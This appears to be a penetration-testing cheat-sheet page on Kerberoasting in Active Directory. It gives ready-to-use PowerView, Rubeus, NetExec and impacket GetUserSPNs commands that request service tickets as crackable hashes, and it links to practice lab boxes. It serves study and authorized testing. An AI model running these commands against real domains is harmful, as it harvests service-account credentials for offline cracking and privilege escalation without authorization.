

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---

# Kerberoasting

## TL;DR

Kerberoasting is an attack on the ST and [SPNs](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names). SPNs are unique IDs that Kerberos uses to map a service instance, for example MySQL, to a service sign-in account, such as `svc_mysql`, in whose, often privileged, context the service is running. The ST is encrypted with the service's account NTLM hash, so it can potentially be cracked. **Any domain user can request a ST from the DC for any SPN account**.

<figure><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Windows



```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```




```powershell
.\Rubeus.exe kerberoast /creduser:domain\user1 /credpassword:pass /user:targetUser /outfile:hash.txt /format:hashcat /nowrap
```




## Linux



```bash
nxc ldap 192.168.0.104 -u user -p pass --kerberoasting output.txt
```



```bash
GetUserSPNs.py -dc-ip 172.16.5.5 DOMAIN/user -request -outputfile spns.lst
```



## Practice




[active.md](../../../../boxes/boxes/easy/active.md)





[sizzle.md](../../../../boxes/boxes/insane/sizzle.md)




## Resources




Kerberoasting in 14 minutes!





How GetUserSPNs script work behind the scenes!









A great article detailing the Kerberoasting process.



